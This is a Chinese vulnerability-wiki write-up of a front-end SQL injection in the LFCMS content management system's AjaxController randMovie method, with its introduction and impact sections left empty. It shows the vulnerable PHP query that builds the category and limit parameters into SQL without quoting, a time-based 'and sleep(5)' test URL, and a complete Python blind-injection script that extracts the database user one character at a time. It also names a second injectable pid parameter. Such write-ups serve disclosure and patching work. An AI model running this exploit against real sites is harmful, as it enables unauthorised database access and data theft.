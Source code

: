 LFCMS AjaxController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Home/Controller/AjaxController.class.php`文件中的`randMovie`方法，代码如下

![1.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId24.png)

第七行代码中调用了`Ajax`模型中的`randMovie`方法，同时`limit`和`category`是我们输入的可控的参数，跟进`randMovie`方法

    public function randMovie($limit=6,$category='') {
        if($category) {
            $type='and category='.$category;
        }
        $prefix=C('DB_PREFIX');
        $mlist=M()->query('SELECT * FROM `'.$prefix.'movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `'.$prefix.'movie`)-(SELECT MIN(id) FROM `'.$prefix.'movie`))+(SELECT MIN(id) FROM `'.$prefix.'movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx '.$type.' ORDER BY t1.id LIMIT '.$limit);
        foreach($mlist as $key=>$value) {
            $list[$key]=D('Tag')->movieChange($value,'movie');
        }
        return $list;
    }

在这里注意到`$type`与`$limit`在`sql`语句执行时均没有被单引号包裹，直接拼接到语句当中，这里就存在了sql注入的可能，首先我们在`movie`表里放一条数据，看一下正常执行时sql语句是如何执行的

![2.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId25.png)

查看数据库日志可以得到如下`sql`语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 ORDER BY t1.id LIMIT 1

接着来尝试下进行注入，测试链接如下

    http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and sleep(5)

页面确实延迟了5秒，那么接着看一下后端数据库的语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 and sleep(5) ORDER BY t1.id LIMIT 1

基本可以判断该处存在着可用的注入点，接下来编写脚本跑一下数据库用户名试试

    import requests
    url = 'http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and '
    s = requests.session()
    result = ""
    for i in range(1,50):
        print('==========================')
        for j in range(32,127):
            payload = "if((ascii(substr((select user()),{},1))={}),sleep(5),0)".format(i,j)
            temp = url+payload
            try:
                s.get(temp,timeout=5)
            except:
                result+= chr(j)
                print(result)
                break

![3.png](/Users/aresx/Documents/VulWiki/.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId26.png)

相同原理的利用点同样不止一个，如`/Application/Home/Controller/PlayerController.class.php`文件中的`down`方法调用了模型`movie`中的`getPlayerUrl`方法，该方法的`pid`参数同样可以注入

参考链接
--------

> https://xz.aliyun.com/t/7844
